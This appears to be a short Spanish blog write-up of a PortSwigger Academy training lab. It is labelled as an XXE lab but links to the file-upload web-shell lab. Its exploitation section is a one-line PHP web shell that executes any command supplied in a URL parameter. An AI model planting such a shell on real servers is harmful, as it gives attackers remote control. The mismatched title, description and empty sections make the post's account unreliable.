+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 1"
date = "2021-12-16"
description = "Lab: "
tags = [
    "xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: 

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar un bypass al control de seguridad que tienen los accesos de los usuarios.



## Reconocimiento


## Explotacion

```php
<?php echo system($_GET['command']); ?>
```



![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)